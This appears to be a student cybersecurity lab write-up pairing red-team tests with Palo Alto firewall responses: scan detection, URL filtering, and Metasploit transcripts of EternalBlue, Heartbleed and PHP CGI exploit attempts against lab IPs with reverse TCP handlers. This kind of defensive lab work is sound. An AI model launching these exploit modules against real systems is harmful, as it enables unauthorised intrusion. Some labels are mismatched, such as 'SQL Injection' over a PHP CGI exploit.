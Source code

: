 Red Test: Nmap against DMZ and Windows Server

### Set up alert in a Palo Alto firewall for detecting and responding to Nmap scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nmap_Scan_Detection.
  - Added Signature Exceptions for Nmap Detection:
    - Selected multiple Nmap related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.
    
![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/Firewall-nmap-alert.PNG)
---


## Red Test: Attempt to block access to potentially malicious websites

**Website:** Malicious websites (hacker9.org)

- **Description:** Attempt to access hacker9.org

**Steps to Test:**

1. Update Block Lists: Ensure firewall is using up-to-date threat intelligence feeds and URL categories.
2. Configure URL Filtering: Set up URL filtering rules to block categories like malware, phishing, and suspicious sites.
3. Enable Logging: Make sure logging is enabled for blocked attempts to access malicious sites.
4. Select Test URLs: Choose URLs such as hacker9.org.
5. Perform Tests: Try accessing the selected test URLs from a client within the network.
6. Check Logs: Verify that the access attempts are logged and blocked by your firewall.

**Blue Response**

- **Firewall Configuration**
  - URL Filtering: Configured Palo Alto firewall's URL filtering settings are configured to block access to categories of sites that are considered risky or inappropriate.
  - Threat Prevention: Enable threat prevention features to block known malicious IP addresses and domains.
  - SSL Decryption: Implement SSL decryption to inspect HTTPS traffic for malicious content.

![ALT TEXT](https://github.com/Reenhaider/2024CyberProject/blob/main/img/URL-Filtering-paloalto-alert.PNG)
---

## Red Test: Nikto against DMZ Server

**Typical Nikto Scan Activities**

- **Banner Grabbing:**
  - Identifies the version of the web server (Apache) and other software components.
- **Vulnerability Checks:**
  - Scans for known vulnerabilities in the Apache web server, PHP, MySQL, and any web applications running on the server.
  - Looks for outdated software versions with known exploits.
- **Configuration Issues:**
  - Identifies misconfigurations such as directory indexing, enabled HTTP methods (like PUT, DELETE), and default files (e.g., index.php, index.html).
- **Sensitive File Detection:**
  - Searches for sensitive files and directories, such as configuration files (phpinfo.php, .htaccess), backup files (.bak, .old), and temporary files.
- **Common Web Application Vulnerabilities:**
  - Tests for vulnerabilities such as SQL injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), and Local File Inclusion (LFI).
- **SSL/TLS Vulnerabilities:**
  - Checks for weak SSL/TLS configurations and vulnerabilities.

### Set up alert in a Palo Alto firewall for detecting and responding to Nikto scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nikto_Scan_Detection.
  - Added Signature Exceptions for Nikto Detection:
    - Selected any Nikto related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.

---

## Red tests using Metasploit CLI and selected payloads

### Eternal Blue

msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] 192.168.50.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.50.100:445 - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.50.100:445).
[*] 192.168.50.100:445 - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.50.100:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

### Heartbleed

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > back
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[*] 192.168.50.100:443 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

### SQL Injection

msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 exploit(multi/http/php_cgi_arg_injection) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/php_cgi_arg_injection) >
